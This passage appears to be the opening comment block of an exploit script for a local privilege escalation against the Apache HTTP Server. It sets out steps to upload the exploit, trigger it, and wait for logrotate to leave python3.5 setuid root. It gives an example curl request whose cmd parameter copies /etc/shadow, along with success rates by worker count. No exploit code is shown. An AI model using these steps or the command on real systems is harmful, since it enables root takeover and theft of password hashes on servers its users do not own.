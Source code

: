     #
    # 1. Upload exploit to Apache HTTP server
    # 2. Send request to page
    # 3. Await 6:25AM for logrotate to restart Apache
    # 4. python3.5 is now suid 0
    #
    # You can change the command that is ran as root using the cmd HTTP
    # parameter (GET/POST).
    # Example: curl http://localhost/carpediem.php?cmd=cp+/etc/shadow+/tmp/
    #
    # SUCCESS RATE
    #
    # Number of successful and failed exploitations relative to of the number
    # of MPM workers (i.e. Apache subprocesses). YMMV.
    #
    # W  --% S   F
    #  5 87% 177 26 (default)
    #  8 89%  60  8
    # 10 95%  70  4
    #
    # More workers, higher success rate.
    # By default (5 workers), 87% success rate. With huge HTTPds, close to 100%.
    # Generally, failure is due to all_buckets being relocated too far from its
    # original address.
    #
    # TESTED ON
    #